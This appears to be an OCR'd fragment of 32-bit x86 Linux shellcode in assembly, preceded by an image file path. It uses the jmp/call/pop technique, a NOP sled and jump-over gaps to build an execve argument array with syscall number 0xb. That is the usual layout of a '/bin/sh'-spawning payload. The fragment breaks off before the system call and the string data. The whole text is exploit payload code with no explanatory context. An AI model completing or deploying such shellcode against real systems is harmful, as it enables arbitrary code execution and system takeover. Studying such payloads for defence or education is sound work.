 ```cpp
.intel_syntax noprefix
.section .text
.global _start

_start:
	nop
	nop
	nop
	nop
	nop
	nop
	jmp LABEL2
	nop
	nop
	nop
	nop

LABEL1:
	pop esi
	lea esi, [esi+4] 
	xor eax, eax
	jmp GAP0
	nop
	nop
	nop
	nop
GAP0:
	nop
	nop
	nop
	mov byte ptr [esi+7], al
	jmp GAP1
	nop
	nop
	nop
	nop
GAP1:
	mov dword ptr [esi+12], eax
	mov dword ptr [esi+8], esi
	jmp GAP2
	nop
	nop
	nop
	nop
GAP2:
	nop
	mov ebx, esi
	lea ecx, [esi + 8]
	jmp GAP3
	nop
	nop
	nop
	nop
GAP3:
	nop
	lea edx, [esi + 12]
	mov al, 0xb
	jmp GAP4
	nop
	nop
	nop
	nop
GAP4:
```